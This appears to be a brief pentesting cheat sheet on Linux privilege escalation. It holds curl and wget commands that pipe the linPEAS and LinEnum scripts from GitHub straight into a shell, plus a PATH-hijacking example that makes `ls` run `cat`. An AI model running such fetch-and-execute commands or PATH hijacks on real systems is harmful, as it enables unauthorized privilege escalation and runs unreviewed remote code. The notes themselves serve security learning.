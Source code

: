 # priv-esc

## Basic Linux Privilege Escalation

[Basic Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)

## [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

`curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh`

## linenum

`wget -O - https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`

## Path vulnerability

If something searches the Path for a a command and where able to replace the path we can trick the system to execute something else.  
Whenever we use `ls` it will now actually run `cat`.

```bash
export PATH="/tmp/tmp:${PATH}"
cp /bin/cat /tmp/tmp/cat
mv /tmp/tmp/cat /tmp/tmp/ls
```
